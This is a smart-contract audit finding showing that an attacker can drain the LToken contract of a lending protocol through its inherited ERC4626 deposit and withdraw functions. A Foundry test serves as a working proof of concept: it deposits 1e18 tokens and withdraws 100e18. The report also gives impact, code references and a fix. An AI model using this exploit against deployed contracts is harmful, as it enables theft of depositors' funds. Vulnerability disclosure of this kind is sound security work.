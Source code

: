 Ruhum
# Attacker can steal LToken's underlying asset

## Summary
The attacker can abuse the inherited ERC4626 contract to steal the LToken's underlying asset.

## Vulnerability Detail
The attacker deposits assets through the ERC4626 interface to receive shares. Normal operations of the LToken contract don't involve the ERC4626 native shares. None are minted when users borrow or repay tokens. Thus, under normal circumstances, the attacker is the only one who has shares. Since they control 100% of the shares, they can redeem these shares to withdraw all the underlying assets.

Here's a test showcasing the issue:

```sol
// protocol/src/test/tokens/LToken.t.sol

    function testAttack() public {
        // normal lending stuff copied from another test:
        erc20.mint(address(lErc20), 100e18);

        cheats.prank(address(accountManager));
        // 1e18 tokens are lent to "account"
        lErc20.lendTo(account, 1e18);

        uint borrowBalance = lErc20.getBorrowBalance(account);
        // Assert
        assertEq(borrowBalance, 1e18);

        // attacker deposits into the LToken contract so they get ERC4626 shares
        // so first give the attacker some liqudidity, e.g. 1e18
        address attacker = cheats.addr(10);
        erc20.mint(attacker, 1e18);
        cheats.prank(attacker);
        erc20.approve(address(lErc20), 1e18);
        cheats.prank(attacker);
        lErc20.deposit(1e18, attacker);


        // at this point, there's 100e18 tokens inside the LToken contract.
        // 1e18 tokens are lent to "account".
        // Because the attacker is the only one who has ERC4626 shares he can redeem them to
        // withdraw all the assets inside the contract
        assertEq(erc20.balanceOf(attacker), 0);

        cheats.prank(attacker);
        lErc20.withdraw(100e18, attacker, attacker);

        assertEq(erc20.balanceOf(attacker), 100e18);
    }
```

## Impact
All the underlying assets of LToken contracts can be stolen.

## Code Snippet
No shares are minted when a user borrows or repays tokens: https://github.com/sentimentxyz/protocol/blob/4e45871e4540df0f189f6c89deb8d34f24930120/src/tokens/LToken.sol#L128-L165

User can freely call the native ERC4626 functions: https://github.com/sentimentxyz/protocol/blob/4e45871e4540df0f189f6c89deb8d34f24930120/src/tokens/utils/ERC4626.sol#L48-L117

## Tool used

Manual Review

## Recommendation
The ERC4626 integration here is weird. You don't use any of its functions. Instead, you built something different around it. For example, instead of issuing the ERC4626 shares, you create your own internal accounting of custom shares: https://github.com/sentimentxyz/protocol/blob/4e45871e4540df0f189f6c89deb8d34f24930120/src/tokens/LToken.sol#L137-L140

I don't see the benefit of using ERC4626 in this case. Either remove it or use the native functions.
